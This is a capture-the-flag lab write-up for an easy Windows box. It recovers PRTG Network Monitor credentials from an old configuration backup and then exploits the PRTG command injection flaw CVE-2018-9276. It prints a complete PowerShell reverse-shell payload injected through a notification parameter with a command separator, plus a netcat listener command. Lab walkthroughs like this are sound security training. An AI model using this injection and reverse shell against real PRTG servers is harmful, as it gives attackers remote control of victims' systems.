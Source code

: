 # BOXNAME
### Info:
OS: Windows<br>
IP: 10.10.10.152<br>
Difficulty : Easy<br>
### Enumeration:
```
nmap -sC -sV -oA nmap 10.10.10.152
```

gives us the results : <br>
![alt text](https://i.imgur.com/7n8ekhk.png) <br>
Finding user.txt was pretty simple it was present inside the FTP, which is highly unlikely in Real Life Scenarios.
<br>
As port 80 was open and there was a PRTG Network Monitor running on<br>
and after googling for a while I found :  <br>
https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/ <br>
Using this we found a file inside the folder similar to shown above in the link `PRTG Configuration.old.bak.dat` <br>
![alt text](https://i.imgur.com/Lb0JQjD.png) <br>
Using the creds : 
```
Username : prtgadmin
Pass: PrTg@dmin2019 (because current year)
```
We can login on the portal.
### Exploitation:
Vulnerability: Command Injection PRTG < 18.2.39 (CVE-2018-9276)<br>
https://www.codewatch.org/blog/?p=453
Using this blog above we can create a user via PRTG network monitor on the local system. <br>
Therefore we can also create a reverse tcp and listen on our host via the same Notification paramter <br>
![alt text](https://i.imgur.com/CC18BG3.png)
Payload for notification execute program parameter:
```
test.txt;$client = New-Object System.Net.Sockets.TCPClient('IP',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Saving this notification and then firing the notification via bell icon and listening on our local via `nc -lnvp port`<br> gives us the root! 
<br>
### Gained knowledge:
PRTG < 18.2.39 Command Injection Vulnerability <br>
Power Shell reverse shell
